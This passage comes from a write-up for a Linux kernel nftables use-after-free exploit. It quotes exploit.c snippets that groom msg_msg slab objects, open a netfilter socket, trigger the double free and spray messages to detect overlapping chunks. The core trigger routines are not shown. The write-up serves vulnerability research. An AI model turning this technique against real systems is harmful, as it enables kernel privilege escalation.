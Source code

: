 - [exploit/extra-refined/exploit.c#L771](../exploit/extra-refined/exploit.c#L771)
```c
// make some room for double freed chunks
for (size_t i = 10; i < 12; i++)
{
	memset(msg_buf, 0, sizeof(msg_buf));
	ret = msgrcv(msgqids2[i], msg, sizeof(msg_buf), 2, IPC_NOWAIT);
	if (ret < 0)
		err(1, "msgrcv");
}
```
To locate the double-freed chunks in the middle of `struct msg_msg` objects, we freed the two `struct msg_msg` from the `kmalloc-cg-512` slabs. We choose the arbitrary indices 10 and 11 for this.

![lts_1](./img/lts_1.png)

In summary, the `kmalloc-cg-1k` slabs are filled by marked `struct msg_msg` objects and the `kmalloc-cg-512` slabs are also filled by `struct msg_msg` except the two free holes for double-freed chunks.

### 6.3 Triggering the vulnerability for overlapping chunks

- [exploit/extra-refined/exploit.c#L780](../exploit/extra-refined/exploit.c#L780)
```c
nl = mnl_socket_open(NETLINK_NETFILTER);
if (nl == NULL)
{
	err(1, "Cannot into mnl_socket_open()");
}

if (mnl_socket_bind(nl, 0, MNL_SOCKET_AUTOPID) < 0)
{
	err(1, "Cannot into mnl_socket_bind()");
}

// setup table and chains
printf("[*] prepare table and chain...\n");
prepare_nftables(nl);

printf("[*] now trigger UAF...\n");
trigger_uaf(nl, NOCG_TARGET_SET_SIZE);
```
Then, we trigger the vulnerability. For that, we implemented `prepare_nftables`
and `trigger_uaf`. Due to its complexity, we did not include this one in this
documentation. So please refer to [our exploit code](../exploit/extra-refined/exploit.c). After that, we
can create the double-freed chunks in the `kmalloc-cg-512` cache.

- [exploit/extra-refined/exploit.c#L798](../exploit/extra-refined/exploit.c#L798)
```c
// spary msg_msg with unique types
for (int i = 0; i < 3; i++)
{
	memset(buf, 0, CG_MSG_MSG_SIZE);
	if (msgqids1[i] < 0)
		continue;
	if (send_msg(msgqids1[i], buf, CG_MSG_MSG_SIZE - 48, i + 1) < 0)
		perror("msgsnd");
}

// and check duplicate
int key1, key2;
memset(msg_buf, 0, sizeof(msg_buf));
ret = msgrcv(msgqids1[0], msg, sizeof(msg_buf), 0, IPC_NOWAIT | MSG_COPY);
if (ret < 0)
```